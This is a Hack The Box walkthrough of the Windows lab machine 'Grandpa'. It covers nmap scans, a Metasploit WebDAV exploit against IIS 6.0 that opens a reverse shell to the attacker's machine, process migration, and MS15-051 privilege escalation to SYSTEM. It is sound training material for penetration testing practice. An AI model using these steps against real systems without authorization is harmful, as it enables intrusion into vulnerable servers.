

# Hackthebox - Grandpa - Windows

- [Box on HTB](https://app.hackthebox.com/machines/13)

## Nmap

```bash
┌──(kali㉿kali)-[~/Documents/grandpa]
└─$ nmap -Pn -sV -sC -p- 10.10.10.14
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-14 14:03 EDT
Nmap scan report for 10.10.10.14
Host is up (0.030s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Date: Fri, 14 Oct 2022 18:05:17 GMT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.10 seconds
```

- As for granny this box has iis 6.0.
- Let's run the nmap scan with the vuln script

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV --script=vuln 10.10.10.14
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-14 14:11 EDT
Nmap scan report for 10.10.10.14
Host is up (0.027s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-enum: 
|   /postinfo.html: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.dll: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.exe: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.dll: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.exe: Frontpage file or folder
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /_vti_bin/shtml.dll: Frontpage file or folder
|_  /_vti_bin/shtml.exe: Frontpage file or folder
|_http-server-header: Microsoft-IIS/6.0
| http-frontpage-login: 
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|       
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 177.91 seconds
```

### Webdav

- Let's use the same metasploit module we used in granny `use exploit/windows/iis/iis_webdav_scstoragepathfromurl`
- `set RHOSTS 10.10.10.14`
- `set LHOST tun0` and `run`
- We get a shell let's migrate as getuid returns an access denied
- `ps` we choose a process running as `NT AUTHORITY\NETWORK SERVICE` and then we use `migrate` with pid `migrate 1608`
- getuid now returns something to us

## Privesc

- Let's try local exploit suggester first `run multi/recon/local_exploit_suggester`
- As for granny we do not get any result.
- Let's check systeminfo and run wes on it

```dos
Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 29 Minutes, 23 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 742 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,279 MB
Page File: In Use:         191 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

- We get also a lot of results with wes
- Let's try CVE-2014-4076 (MS14-070)
- Here as well our shell dies
- It does not seem to be vulnerable to CVE-2014-4113 according to wes
- Let's try CVE-2015-1701 (MS15-051)
- `use exploit/windows/local/ms15_051_client_copy_image`
- `set SESSION 3`
- `set LHOST tun0`
- `set LPORT 4445`
- `run`
- We get a system shell and we can grab the flags  

